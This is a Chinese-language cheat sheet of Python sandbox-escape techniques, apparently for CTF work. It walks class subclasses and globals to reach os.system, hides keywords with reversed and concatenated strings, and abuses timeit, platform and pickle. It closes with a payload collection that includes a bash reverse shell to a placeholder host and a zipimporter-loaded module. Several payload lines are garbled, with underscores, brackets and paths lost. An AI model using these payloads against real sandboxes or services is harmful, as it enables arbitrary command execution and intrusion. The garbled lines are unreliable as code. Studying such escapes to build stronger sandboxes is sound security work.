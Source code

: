 沙箱
================================

常用函数
--------------------------------
- eval / exec / compile
- dir / type
- globals / locals / vars
- getattr / setattr

沙箱逃逸
--------------------------------
- 魔术方法
	::
	
		第一个是类具有的——__dict__魔术方法
		第二个是实例、类、函数都具有的——__getattribute__魔术方法

		dir([]) #实例
		dir([].class) #类
		dir([].append) #函数
		
		#查看实例中支持的方法
		>>> class haha:
		...     a=7
		...
		>>> dir(haha)
		['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'a']

		#查看类中支持的方法/对象
		>>> dir([].__class__)
		['__add__', '__class__', '__contains__', '__delattr__', '__delitem__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__gt__', '__hash__', '__iadd__', '__imul__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__reversed__', '__rmul__', '__setattr__', '__setitem__', '__sizeof__', '__str__', '__subclasshook__', 'append', 'clear', 'copy', 'count', 'extend', 'index', 'insert', 'pop', 'remove', 'reverse', 'sort']
		>>> dir([].copy.__class__)
		['__call__', '__class__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__name__', '__ne__', '__new__', '__qualname__', '__reduce__', '__reduce_ex__', '__repr__', '__self__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__text_signature__']


		#查看具体函数中支持的方法
		>>> dir([].__class__.__base__.__subclasses__()[72].__init__)
		['__call__', '__class__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__get__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__name__', '__ne__', '__new__', '__objclass__', '__qualname__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__text_signature__']


		#使用__dict__调用[].__class__的__init__方法
		>>> [].__class__.__dict__['__init__']
		<slot wrapper '__init__' of 'list' objects>
		#使用__getattribute__调用[].__class__的__init__方法
		>>> [].__class__.__getattribute__([],'__init__')
		<method-wrapper '__init__' of list object at 0x000001BAB90317C0>
		#第一个返回的是个方法，第二个返回一个实例空间的方法
		#通常构造payload1的时候：
		[].__class__.__base__.__subclasses__()[72].__init__.__globals__['os']
		只有第一种的方法（dict）才具有__globals__


- 在父类中寻找可用的模块，最常见payload是 ``().__class__.__bases__[0].__subclasses__()`` 或者用魔术方法获取全局作用域 ``__init__.__func__.__globals__``
	::
	
		import site
		os = reload(site.os)
		os.system('whoami')
		
		#A->os示例

		>>> for i in enumerate(''.__class__.__mro__[-1].__subclasses__()): print i
		...
		(0, <type 'type'>)
		(1, <type 'weakref'>)
		(2, <type 'weakcallableproxy'>)
		(3, <type 'weakproxy'>)
		(4, <type 'int'>)
		(5, <type 'basestring'>)
		(6, <type 'bytearray'>)
		(7, <type 'list'>)
		(8, <type 'NoneType'>)
		(9, <type 'NotImplementedType'>)
		(10, <type 'traceback'>)
		(11, <type 'super'>)
		(12, <type 'xrange'>)
		(13, <type 'dict'>)
		(14, <type 'set'>)
		(15, <type 'slice'>)
		(16, <type 'staticmethod'>)
		(17, <type 'complex'>)
		(18, <type 'float'>)
		(19, <type 'buffer'>)
		(20, <type 'long'>)
		(21, <type 'frozenset'>)
		(22, <type 'property'>)
		(23, <type 'memoryview'>)
		(24, <type 'tuple'>)
		(25, <type 'enumerate'>)
		(26, <type 'reversed'>)
		(27, <type 'code'>)
		(28, <type 'frame'>)
		(29, <type 'builtin_function_or_method'>)
		(30, <type 'instancemethod'>)
		(31, <type 'function'>)
		(32, <type 'classobj'>)
		(33, <type 'dictproxy'>)
		(34, <type 'generator'>)
		(35, <type 'getset_descriptor'>)
		(36, <type 'wrapper_descriptor'>)
		(37, <type 'instance'>)
		(38, <type 'ellipsis'>)
		(39, <type 'member_descriptor'>)
		(40, <type 'file'>)
		(41, <type 'PyCapsule'>)
		(42, <type 'cell'>)
		(43, <type 'callable-iterator'>)
		(44, <type 'iterator'>)
		(45, <type 'sys.long_info'>)
		(46, <type 'sys.float_info'>)
		(47, <type 'EncodingMap'>)
		(48, <type 'fieldnameiterator'>)
		(49, <type 'formatteriterator'>)
		(50, <type 'sys.version_info'>)
		(51, <type 'sys.flags'>)
		(52, <type 'exceptions.BaseException'>)
		(53, <type 'module'>)
		(54, <type 'imp.NullImporter'>)
		(55, <type 'zipimport.zipimporter'>)
		(56, <type 'posix.stat_result'>)
		(57, <type 'posix.statvfs_result'>)
		(58, <class 'warnings.WarningMessage'>)
		(59, <class 'warnings.catch_warnings'>)
		(60, <class '_weakrefset._IterationGuard'>)
		(61, <class '_weakrefset.WeakSet'>)
		(62, <class '_abcoll.Hashable'>)
		(63, <type 'classmethod'>)
		(64, <class '_abcoll.Iterable'>)
		(65, <class '_abcoll.Sized'>)
		(66, <class '_abcoll.Container'>)
		(67, <class '_abcoll.Callable'>)
		(68, <type 'dict_keys'>)
		(69, <type 'dict_items'>)
		(70, <type 'dict_values'>)
		(71, <class 'site._Printer'>)
		(72, <class 'site._Helper'>)
		(73, <type '_sre.SRE_Pattern'>)
		(74, <type '_sre.SRE_Match'>)
		(75, <type '_sre.SRE_Scanner'>)
		(76, <class 'site.Quitter'>)
		(77, <class 'codecs.IncrementalEncoder'>)
		(78, <class 'codecs.IncrementalDecoder'>)
		>>> ''.__class__.__mro__[-1].__subclasses__()[71]._Printer__setup.__globals__['os']
		<module 'os' from '/usr/lib/python2.7/os.pyc'

		#实例2
		>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.keys()
		['updatecache', 'clearcache', '__all__', '__builtins__', '__file__', 'cache', 'checkcache', 'getline', '__package__', 'sys', 'getlines', '__name__', 'os', '__doc__']
		>>> a=[].__class__.__base__.__subclasses__()[60].__init__.func_globals['linecache'].__dict__.values()[12]
		>>>>a
		<module 'os' from '/usr/lib/python2.7/os.pyc'>
		#成功导入继续利用
		>>>a.__dict__.keys().index('system')
		79
		>>> a.__dict__.keys()[79]
		'system'
		>>> b=a.__dict__.values()[79]
		>>> b
		<built-in function system>
		>>> b('whoami')
		root

- pickle 模块
	+ pickle 实现任意代码执行，生成 payload 可以使用 ``https://gist.github.com/freddyb/3360650``
- timeit
	::
	
		import timeit
		timeit.timeit("import('os').system('dir')",number=1)
		#coding:utf-8 import timeit timeit.timeit("import('os').system('')", number=1)
- exec/eval
	::
	
		eval('import("os").system("dir")')
- platform
	::
	
		import platform
		print platform.popen('dir').read()
		import platform platform.popen('id', mode='r', bufsize=-1).read()
- 花式import
	::
		
		import..os
		import...os
		import:import('os')，import, importlib:importlib.import_module('os').system('ls')
		
		python2中支持
		execfile('/usr/lib/python2.7/os.py'),python2中支持
		system('ls')
		
		python3中支持
		with open('/usr/lib/python3.6/os.py','r') as f:
		exec(f.read())
		system('ls')
- 花式处理字符串
	::
	
		__import__('so'[::-1]).system('ls')	#逆序打印
		
		b = 'o'
		a = 's'
		__import__(a+b).system('ls')	#字符拼接
		
		eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])	#eval函数
		exec(')"imaohw"(metsys.so ;so tropmi'[::-1])	#exec函数
- 恢复sys.modules
	::
	
		sys.modules['os'] = 'not allowed' 
		del sys.modules['os']
		import os
		os.system('ls')
		
		#__builtins__的导入方法
		(lambda x:1).__globals__['__builtins__'].eval("__import__('os').system('ls')")
		(lambda x:1).__globals__['__builtins__'].__dict__['eval']("__import__('os').system('ls')")
- 花式执行函数
	::
	
		import os
		getattr(os, 'metsys'[::-1])('whoami')
		#如果不让出现import
		getattr(getattr(__builtins__, '__tropmi__'[::-1])('so'[::-1]), 'metsys'[::-1])('whoami')

小结/思路
--------------------------------
一般逃逸使用这几个库来尝试：os,subprocess,commands
如果都被ban了可以尝试预备内容中谈到的两个魔术方法来绕过字符串的限制，或者使用内建函数来绕过。

payload集锦
--------------------------------
	::
	
		print [].class.base.subclasses()40.read() #查看文件

		().class.bases[0].subclasses()40.read()
		相当于:().class.bases[0].subclasses()40).read() #字符串的处理上还可以用其他的很多

		[].class.base.subclasses()[60].init.getattribute(‘func_global’+‘s’)[‘linecache’].dict.values()[12]>

		print [].class.base.subclasses()[59].init.func_globals[‘linecache’].dict.values()[12].dict.values()144 linecache中查找os模块执行系统命令

		getattr(import(‘types’).builtins’tropmi’[::-1], ‘mets’ ‘ys’[::-1])(‘whoami’)

		().class.bases[0].subclasses()[59].init.func_globals[‘linecache’].dict[‘o’+‘s’].dict’sy’+‘stem’

		().class.bases[0].subclasses()[59].init.getattribute(‘func_global’+‘s’)[‘linecache’].dict[‘o’+‘s’].dict’popen’.read()

		print(().class.bases[0].subclasses()[59].init.func_globals[‘linecache’].dict[‘o’+‘s’].dict’sy’+‘stem’)

		{}.class.bases[0].subclasses()[71].getattribute({}.class.bases[0].subclasses()[71].init.func,‘func’+’_global’ +‘s’)[‘o’+‘s’].popen(‘bash -c “bash -i >& /dev/tcp/xxx/xxx 0<&1 2>&1”’) #自模块中寻找os模块 执行系统命令

		print [].class.base.subclasses()40.read()

		print [].class.base.subclasses()40.read()

		print [].class.base.subclasses()40.read()

		print [].class.base.subclasses()40.read() #读取重要信息

		code = “PK\x03\x04\x14\x03\x00\x00\x08\x00\xec\xb9\x9cL\x15\xa5\x99\x18;\x00\x00\x00>\x00\x00\x00\n\x00\x00\x00Err0rzz.pySV\xd0\xd5\xd2UH\xceO\xc9\xccK\xb7R(-I\xd3\xb5\x00\x89pqe\xe6\x16\xe4\x17\x95(\xe4\x17sq\x15\x14e\xe6\x81Xz\xc5\x95\xc5%\xa9\xb9\x1a\xea9\xc5\n\xba\x899\xea\x9a\\x00PK\x01\x02?\x03\x14\x03\x00\x00\x08\x00\xec\xb9\x9cL\x15\xa5\x99\x18;\x00\x00\x00>\x00\x00\x00\n\x00$\x00\x00\x00\x00\x00\x00\x00 \x80\xa4\x81\x00\x00\x00\x00Err0rzz.py\n\x00 \x00\x00\x00\x00\x00\x01\x00\x18\x00\x00\xd6\x06\xb2p\xdf\xd3\x01\x80\x00\xads\xf9\xa7\xd4\x01\x80\x00\xads\xf9\xa7\xd4\x01PK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00\\x00\x00\x00c\x00\x00\x00\x00\x00”
		print [].class.base.subclasses()40.write(code)
		print [].class.base.subclasses()40.read()
		[].class.base.subclasses()55.load_module(‘Err0rzz’) #构造zip module使用zipimporter

		x = [x for x in [].class.base.subclasses() if x.name == ‘ca’+‘tch_warnings’][0].init

		x.getattribute(“func_global”+“s”)[‘linecache’].dict[‘o’+‘s’].dict’sy’+‘stem’

		x.getattribute(“func_global”+“s”)[‘linecache’].dict[‘o’+‘s’].dict[‘sy’+‘stem’](‘l’+‘s /home/ctf’)

		x.getattribute(“func_global”+“s”)[‘linecache’].dict[‘o’+‘s’].dict’sy’+‘stem’

防御
--------------------------------
Python官方给出了一些防御的建议

- 使用Jython并尝试使用Java平台来锁定程序的权限
- 使用fakeroot来避免
- 使用一些rootjail的技术
